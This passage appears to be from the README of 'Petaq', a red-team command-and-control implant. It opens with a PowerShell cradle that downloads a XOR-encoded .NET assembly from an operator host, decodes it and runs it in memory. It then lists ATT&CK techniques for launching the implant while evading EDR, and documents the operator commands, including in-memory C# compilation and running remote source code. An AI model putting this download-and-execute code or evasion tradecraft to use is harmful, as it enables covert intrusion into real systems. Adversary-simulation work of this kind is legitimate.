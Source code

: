 ```
powershell –c $m=new-object net.webclient;$m.proxy=[Net.WebRequest]::GetSystemWebProxy();$m.Proxy.Credentials=[Net.CredentialCache];$Url='http://YOURIP:YOURPORT/PetaqImplantXORed.jpg';$dba=$m.downloaddata($Url);for($i=0; $i -lt $dba.count ; $i++){$dba[$i] = $dba[$i] -bxor 0x2F};$a=[System.Reflection.Assembly]::Load($dba); $a.EntryPoint.Invoke(0,@(,[string[]]@()))
```
## Alternative Mitre Att&ck Techniques for Execution
The following techniques can be used to deploy PetaqImplant .NET assemmbly or source through evasive executions. Some may need extra tools to embed .NET assembly to a JavaScript, some may need to add custom service code or a COM object to load the .NET assembly. Most of them highly monitored by EDRs as well as PowerShell. It's up to the operator to find an evasive way to invoke a .NET assembly, though, it would not be difficult as several Windows components/binaries/libraries natively load and run .NET assemblies. It's always a good idea to check the LOLBAS project to find a trusted Windows binary to run a .NET assembly or command indirectly.
* T1086 - PowerShell (Use PowerShell to load PetaqImplant .NET assembly from remote)
* T1121 - Regsvcs/Regasm (Run PetaqImplant.exe via Regasm, or add service code for Regsvcs)
* T1064 - Scripting (Use Dotnettojs/Cactustorch/Tikitorch to deploy PetaqImplant .NET Assembly)
* T1118 - InstallUtil (Use InstallUtil bypass to run/compile PetaqImplant .NET assembly or source)
* T1175 - Component Object Model and Distributed COM (Use a COM object to serialise PetaqImplant .NET Assembly)

# Code Execution Features
## Start a Process with Arguments
Start a process as inline or as a thread. This is mainly used for running CMD.exe commands, PowerShell scripts or running custom programs with arguments. It's easier to spot for EDRs and Sysmon like tools if the processes and arguments are monitored well. 
```
exec cmd.exe /c dir
exec powershell -c Write-Output($env:UserName)
exec whoami
```
If Petaq shouldn't wait for the process as it may take a long time, then execthread would be used to run the processess as a threat to PetaqImplant process. Downside is Petaq wouldn't be able to get the output. In future, this may be fixed with SMB Named Pipes. 
```
execthread cmd.exe /c dir
execthread powershell -c Write-Output($env:UserName)
execthread whoami
```
## Interactive C# Shell
Petaq does add a header and a footer to the given C# code, compile it in memory without touching disk, then run it and get the output. This is useful to evade EDRs and other command line monitoring tools if the operator uses .NET code instead of Windows command shells.
```
exec-sharpdirect SHARPCODE
exec-sharpdirect base64 BASE64_ENCODED_SHARPCODE
exec-sharpdirect Console.WriteLine(System.Security.Principal.WindowsIdentity.GetCurrent().Name);
exec-sharpdirect Console.WriteLine(System.Net.Dns.GetHostName());
```
## Compile and Run .NET Source Code with Arguments
Petaq is able to compile a .NET source code in memory and run with the arguments given. This may be required in case of different .NET versions required, or just evasion. 
```
exec-sharpcode url http://YOURIP:YOURPORT/Sharpcode.src Parameters
exec-sharpcode base64 BASE64_ENCODED_SHARPCODE Parameters
```
## Load and Run .NET Assembly with Arguments
Petaq is able to load a .NET assembly from a remote location to a variable, and run with the arguments given. This is mainly used for .NET tradecraft used to simulate the Mitre Att&ck TTPs.